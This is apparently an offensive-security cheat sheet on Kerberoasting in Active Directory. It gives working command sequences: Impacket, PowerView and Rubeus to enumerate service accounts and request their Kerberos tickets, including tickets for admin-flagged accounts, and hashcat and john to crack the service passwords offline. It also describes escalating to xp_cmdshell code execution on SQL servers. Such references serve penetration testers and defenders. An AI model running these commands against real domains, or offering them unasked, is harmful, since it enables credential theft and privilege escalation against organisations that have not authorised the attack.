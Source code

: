 # Kerberoasting

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Kerberoasting**</mark> is a <mark style="color:purple;">**lateral movement/privilege escalation technique**</mark> in Active Directory environments. This attack targets <mark style="color:red;">**Service Principal Name (SPN)**</mark> accounts.&#x20;

Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as <mark style="color:green;">**`NT AUTHORITY\LOCAL SERVICE`**</mark>.&#x20;

> <mark style="color:orange;">**Any domain user can request a Kerberos ticket for any service account in the same domain.**</mark>&#x20;

It works because in Kerberos protocol if you have TGT, KDC implies you are honest domain member, so it can give you ST (which is encrypted with Service Account's password). But then if you would try to access service, Service will check UAC and ACL, and deny you're access. The vulnerability is that any user can ask for TGS, and because of it we can.

***

1. **Look for juicy Kerberoastable account with SPN's to use.**
2. **Extract TGS Tickets.**
3. **Crack it and get a creds (You can't use hash for PtH, only crack it).**

***

This is also possible across forest trusts if authentication is permitted across the trust boundary.&#x20;

If the password for a domain SQL Server service account is cracked, you are likely to find yourself as a local admin on multiple servers, if not Domain Admin. Even if cracking a ticket obtained via a Kerberoasting attack gives a low-privilege user account, we can use it to craft service tickets for the service specified in the SPN. For example, if the SPN is set to MSSQL/SRV01, we can access the MSSQL service as sysadmin, enable the xp\_cmdshell extended procedure and gain code execution on the target SQL server.

### <mark style="color:blue;">Prerequisites</mark>

We could execute Kerberoasting from various setups like (<mark style="color:orange;">**shell / creds are must-have**</mark>):

* Non-domain Linux machine (<mark style="color:green;">**Impacket, netexec, hashcat, john, etc**</mark>).
* Non-domain Windows machine (<mark style="color:yellow;">**using runas /netonly**</mark>).
* Domain-joined Windows machine (<mark style="color:green;">**PowerView, Rubeus, Mimikatz, setspn.exe, etc**</mark>)

## <mark style="color:yellow;">LINUX</mark>

### <mark style="color:blue;">GetUserSPNs</mark>

> <mark style="color:yellow;">**Use**</mark> <mark style="color:green;">`-outputfile`</mark> <mark style="color:yellow;">**parameter for output into a file**</mark>

#### List SPN Accounts

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed
```

#### Request all TGS Tickets

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed -request
```

#### Target Specific User

```bash
impacket-GetUserSPNs -dc-ip 13.13.13.13 MILITECH.LOCAL/sol.reed -request-user songbird
```

> With <mark style="color:green;">`-target-domain`</mark> parameter we can do Cross-Forest Kerberoasting

## <mark style="color:yellow;">WINDOWS</mark>

### <mark style="color:blue;">PowerView</mark>

#### Extract TGS Tickets

```powershell
PS C:\> Import-Module .\PowerView.ps1
PS C:\> Get-DomainUser * -spn | select samaccountname
```

#### Target Specific User

```powershell
PS C:\> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

#### Extract all Tickets to CSV

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\crack_tgs.csv -NoTypeInformation
```

### <mark style="color:blue;">Rubeus</mark>

#### Stats

```powershell
PS C:\> .\Rubeus.exe kerberoast /stats
```

#### Target High-Value Accounts

```powershell
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

#### Target Specific User

```powershell
PS C:\> .\Rubeus.exe kerberoast /user:testuser /nowrap # For RC4 only, use /tgtdeleg
```

> With <mark style="color:green;">`-Domain`</mark> parameter we can do Cross-Forest Kerberoasting

## <mark style="color:yellow;">CRACKING</mark>

> <mark style="color:orange;">**IF YOU ARE ON WINDOWS SERVER 2016 OR EARLIER SPECIFY HASH IN RC4 ALGORITHM BECAUSE IT'S EASIER TO CRACK. IF YOU ARE ABOVE 2016's THEN YOU WILL BE DEALING WITH AES ENCRYPTION.**</mark>

> <mark style="color:orange;">**IF HASH BEGINS WITH**</mark> <mark style="color:green;">`$krb5tgs$23$*`</mark> <mark style="color:orange;">**THIS IS RC4 HASH**</mark>&#x20;

#### Checking Supported Encryption Types

```powershell
PS C:\> Get-DomainUser testuser -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

### <mark style="color:blue;">Hashcat</mark>

#### 1. Convert kirbi to Crackable format

```bash
python2.7 kirbi2john.py sqldev.kirbi > crack_tgs_unprocessed
```

#### 2. Modifying file for Hashcat

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_tgs_unprocessed > crack_tgs
```

#### 3. Run Hashcat

```bash
hashcat -m 13100 crack_tgs /usr/share/wordlists/rockyou.txt # 13100 mode is for RC4
```

### <mark style="color:blue;">John</mark>

#### 1. Convert kirbi to Crackable format

```bash
python2.7 kirbi2john.py sqldev.kirbi > crack_tgs
```

#### 2. Run John

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack_tgs
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/kerberoast" %}

{% embed url="https://www.youtube.com/watch?v=PUyhlN-E5MU" %}
